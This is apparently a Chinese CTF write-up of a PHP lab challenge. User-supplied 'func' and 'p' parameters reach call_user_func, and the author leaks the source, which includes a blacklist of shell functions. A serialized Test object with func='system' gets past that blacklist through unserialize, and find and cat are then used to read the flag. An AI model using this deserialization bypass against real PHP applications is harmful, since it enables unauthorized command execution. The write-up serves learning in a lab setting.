









本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，发现一段关于data()函数的warning，页面每隔几秒刷新一次，warning中的时间也会不段改变，推测data()函数一直被调用，

查看源码没有获得有用的信息，接下来Burp抓包看看，

POST请求传入两个参数，func参数代表函数，p参数代表传入函数的参数值，
那能不能执行其他函数呢，

传入参数strtolower(AB)，回显ab，说明可以利用传参执行其他函数，
直接使用system函数，

回显Hacker，看来对传入函数做了限制，
试试用file_get_contents函数读取源码，

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| <?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk", "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
$result = call_user_func($func, $p);
$a= gettype($result);
if ($a == "string") {
return $result;
} else {return "";}
}
class Test {
var $p = "Y-m-d h:i:s a";
var $func = "date";
function __destruct() {
if ($this->func != "") {
echo gettime($this->func, $this->p);
}
}
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];
if ($func != null) {
$func = strtolower($func);
if (!in_array($func,$disable_fun)) {
echo gettime($func, $p);
}else {
die("Hacker...");
}
}
?>
|
过滤黑名单中没有file_get_contents(),unserialize()函数，导致源码泄露和反序列化漏洞，
构造序列化pyload:
1
2
3
4
5
6
7
8
9
10
| <?php
class Test {
var $p = "ls /";
var $func = "system";
}
$user = new Test();
$payload = serialize($user);
echo $payload;
?>
|


绕过成功，但是没有发现flag文件，
使用find / -name *flag*寻找根目录下目录包含flag的文件，

挑路径短的先试，
cat /tmp/flagoefiu4r93

获得flag